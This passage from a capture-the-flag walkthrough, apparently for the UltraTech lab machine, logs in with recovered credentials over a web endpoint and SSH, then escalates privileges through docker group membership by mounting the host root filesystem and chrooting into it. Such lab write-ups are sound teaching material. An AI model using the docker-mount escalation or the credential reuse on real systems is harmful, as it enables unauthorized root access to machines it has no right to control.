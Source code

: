 With this credentials we can authenticate:
```
http://ultratech.thm:8081/auth?login=r00t&password=n100906
```

And we see a message from the user "lp1":
```
Hey r00t, can you please have a look at the server's configuration?  
The intern did it and I don't really trust him.  
Thanks!  
  
_lp1_
```

Now let's login via SSH:
```bash
ssh r00t@ultratech.thm
```

Supply that password when prompted.

<br/>

### Privilege Escalation
Checking sudo permissions:
```bash
sudo -l
```

We cant run anything as `sudo`.

Further enumerations reveals that we are part of the "docker" group.
We can check for running containers:
```bash
docker ps
```

No one, list all containers and images:
```bash
docker ps --all
```

```bash
docker images ls
```

There are 3 containers:
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                     PORTS               NAMES
7beaaeecd784        bash                "docker-entrypoint.s…"   6 years ago         Exited (130) 6 years ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   6 years ago         Exited (127) 6 years ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   6 years ago         Exited (127) 6 years ago                       boring_volhard
```

We can use this command to try to gain a privileged shell:
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
